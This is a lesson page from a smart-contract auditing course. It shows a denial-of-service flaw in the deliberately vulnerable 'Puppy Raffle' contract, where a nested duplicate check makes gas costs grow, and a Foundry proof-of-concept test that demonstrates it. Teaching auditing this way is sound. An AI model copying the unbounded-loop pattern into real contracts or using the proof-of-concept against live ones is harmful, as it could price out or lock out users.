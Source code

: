```yaml
---
title: DoS - PoC (Proof of Code)
---
```


_Follow along with this video:_

---

### Back to Puppy Raffle

Now that we possess a little more context and understanding of what a `Denial of Service` attack is, and what it can mean for a protocol, let's return to Puppy Raffle and remind ourselves where we began.

```js
/// @notice this is how players enter the raffle
/// @notice they have to pay the entrance fee * the number of players
/// @notice duplicate entrants are not allowed
/// @param newPlayers the list of players to enter the raffle
function enterRaffle(address[] memory newPlayers) public payable {
    require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
    for (uint256 i = 0; i < newPlayers.length; i++) {
        players.push(newPlayers[i]);
    }

    // Check for duplicates
    for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
    emit RaffleEnter(newPlayers);
}
```

This should look very familiar to us by now:

```js
// Check for duplicates
// @audit Possible DoS
for (uint256 i = 0; i < players.length - 1; i++) {
    for (uint256 j = i + 1; j < players.length; j++) {
        require(players[i] != players[j], "PuppyRaffle: Duplicate player");
    }
}
```

At this point I would add this to my `notes.md`, you may want to come back to this later and continue assessing the code back, but let's go ahead and prove this finding now.

### Proof of Code

If the protocol has an existing test suite, it's often easier to add our tests to it then write things from scratch.

Run `forge test` to make sure the test suite is working correctly so far!

There are lots of useful parts of `PuppyRaffle.t.sol` we can use for our PoC.

Now, here's your challenge. I want you to try and write the `Proof of Code` yourself. Build those skills by trying to write a test function that shows the potential `Denial of Service` we've uncovered.

<details>
<summary> The Proof of Code </summary>

Great! Now that you've _100%_ tried this yourself, let's go through it together.

I would start by harvesting the existing `testCanEnterRaffle` function. This is a great boilerplate for what we're trying to show.

```js
function testCanEnterRaffle() public {
    address[] memory players = new address[](1);
    players[0] = playerOne;
    puppyRaffle.enterRaffle{value: entranceFee}(players);
    assertEq(puppyRaffle.players(0), playerOne);
}
```

Let's repurpose this!

```js
function testDenialOfService() public {
    // Foundry lets us set a gas price
    vm.txGasPrice(1);

    // Creates 100 addresses
    uint256 playersNum = 100;
    address[] memory players = new address[](playersNum);
    for(uint i = 0; i < players.length; i++){
        players[i] = address(i);
    }

    // Gas calculations for first 100 players
    uint256 gasStart = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
    uint256 gasEnd = gasleft();
    uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
    console.log("Gas cost of the first 100 players: ", gasUsedFirst);
}
```

Running the command `forge test --mt testDenialOfService -vvv` should give us an output like this:

::image{src='/security-section-4/13-dos-poc/dos-poc1.png' style='width: 75%; height: auto;'}

Now let's do the same thing for the second 100 players! We'll need to add something like this to our test.

```js
// Creats another array of 100 players
address[] memory playersTwo = new address[](playersNum);
for (uint256 i = 0; i < playersTwo.length; i++) {
    playersTwo[i] = address(i + playersNum);
}

// Gas calculations for second 100 players
uint256 gasStartTwo = gasleft();
puppyRaffle.enterRaffle{value: entranceFee * players.length}(playersTwo);
uint256 gasEndTwo = gasleft();
uint256 gasUsedSecond = (gasStartTwo - gasEndTwo) * tx.gasprice;
console.log("Gas cost of the second 100 players: ", gasUsedSecond);

assert(gasUsedFirst < gasUsedSecond);
```

If we rerun our test we can see.. Our test passes! The second 100 players are paying _a LOT_ more and are at a significant disadvantage!

::image{src='/security-section-4/13-dos-poc/dos-poc2.png' style='width: 75%; height: auto;'}

</details>


### Wrap Up

That's all there is to it. We've clearly shown a potential `Denial of Service` through our `Proof of Code`. This test function is going to go right into our report.

Let's do that now!
